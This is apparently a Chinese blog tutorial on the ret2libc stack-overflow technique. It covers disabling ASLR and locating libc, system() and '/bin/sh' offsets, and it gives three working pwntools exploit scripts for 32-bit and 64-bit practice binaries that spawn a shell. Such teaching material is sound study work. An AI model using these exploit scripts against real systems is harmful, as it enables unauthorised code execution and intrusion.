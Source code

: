 ```yaml
---
title: 'ret2libc'
date: '2023-08-18'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '标准 ROP 漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh`；如果你将此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system`。

LINK

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出 `system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF 文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000`。

<Note>
  `libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是意味着你有不同的版本的 `libc`。
</Note>

### 1x02 获取 system() 的地址

为了调用 `system()`，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610`。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用 `strings` 指令。

<Important>
  当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串的十六进制表示形式，因为这就是 C 语言所规定的方式。
</Important>

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

<Important>
  你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。
</Important>

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python:exp.py showLineNumbers
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

<Tip>
  如果题目提供了 libc ，也可以这样用：

  libc = ELF('libc.so.6')<br />
  print(libc.sym['system'])
</Tip>

<Note>
  pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。
</Note>

